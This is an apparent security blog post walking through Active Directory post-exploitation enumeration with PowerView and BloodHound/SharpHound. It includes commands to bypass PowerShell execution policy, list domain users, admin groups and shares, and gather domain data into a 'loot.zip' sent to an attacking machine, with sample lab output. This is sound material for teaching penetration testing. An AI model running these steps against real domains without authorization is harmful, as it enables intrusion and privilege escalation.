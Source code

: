 ```yaml
---
title: "Domain Enumeration"
tags:
    - active directory
date: "2024-07-16"
thumbnail: "/assets/img/thumbnail/kerberos.png"
bookmark: true
---
```


Here we are going to cover some enumeration & credentials dumping techniques.

# Powerview
---
It's a powerfull powershell script that can be used for enumerating a domain after you have already gained a shell in the system(Post Exploitation).

## installation
You can download it from <a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">here</a>.
Send it to the victim.

## usage
- `powershell -ep bypass` : to bypass execution policy and run powershell scripts in more free way (It's just exists to prevent us from executing scripts by accident so we can shut it off using the previous command)
- `. .\PowerView.ps1` : to start powerview
Now we are able to do some enumeration


```powershell
PS C:\Users\Administrator\Desktop> Get-NetDomain


Forest                  : rift.local
DomainControllers       : {NINJA-DC.rift.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : NINJA-DC.rift.local
RidRoleOwner            : NINJA-DC.rift.local
InfrastructureRoleOwner : NINJA-DC.rift.local
Name                    : rift.local
```

Users Enumeration
```powershell
PS C:\Users\Administrator\Desktop> Get-NetUser | select cn

cn
--
Administrator
Guest
DefaultAccount
Eng
krbtgt
kayn
jax
zed
SQL Service
abdo kandil
ahmed
sphinky
7aidor
```

Group Enumeration
```powershell
PS C:\Users\Administrator\Desktop> Get-NetGroup -name *admin* | select cn

cn
--
Administrators
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```

Shares Enumeration
```powershell
PS C:\Users\Administrator\Desktop> Invoke-ShareFinder

Name           Type Remark              ComputerName
----           ---- ------              ------------
ADMIN$   2147483648 Remote Admin        NINJA-DC.rift.local
C$       2147483648 Default share       NINJA-DC.rift.local
hackme            0                     NINJA-DC.rift.local
IPC$     2147483651 Remote IPC          NINJA-DC.rift.local
NETLOGON          0 Logon server share  NINJA-DC.rift.local
SYSVOL            0 Logon server share  NINJA-DC.rift.local
```

OS enumeration of the computers in the domain
```powershell
PS C:\Users\Administrator\Desktop> Get-NetComputer | select operatingsystem

operatingsystem
---------------
Windows Server 2016 Datacenter
Windows 10 Enterprise LTSC
```
use `Get-NetComputer -fulldata | select operatingsystem` if the previous command didn't work

This is a brief intro about installing and using powerview (OFC you can use it in more enumerations)

# BloodHound
---
It uses graph theory to represent the relationships between the components within Active Directory.
It visualizes the gathered data so identifing the complex paths within the Active Directory.

We actually have 3 main parts `Neo4j`, `SharpHound` & `BloodHound`
- `Neo4j`: is a native graph database that implements a true graph model all the way down to the storage level.
- `SharpHound`: is the script that actually collects the data.
- `BloodHound`: is used for visualizing the collected data by SharpHound

## installation
- `apt-get install bloodhound` : to install bloodhound on your attacking machine.
- `neo4j console` : starting neo4j console and you will have neo4j:neo4j default credentials you will change the password and use the new creds in the next logins
- You can download SharpHound from <a href="https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1">here</a>.
- Send it to the victim.

## usage
- On the target bypass exec policy like we did in powerview `powershell -ep bypass`
- `. .\SharpHound.ps1` to start sharphound.
- `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip` This will result in zip file called loot.zip contains the collected data.
- Sent that zip file to the attacking machine
- open bloodhound on the attacking machine using `bloodhound`
- drag the zip file to bloodhound and now you can use the ready queries or create a custom query to be visualized

This's example of visualizing of `Find all Domain Admins` query
<img src="/assets/img/active dir/capture3.jpg" alt="bloodhound">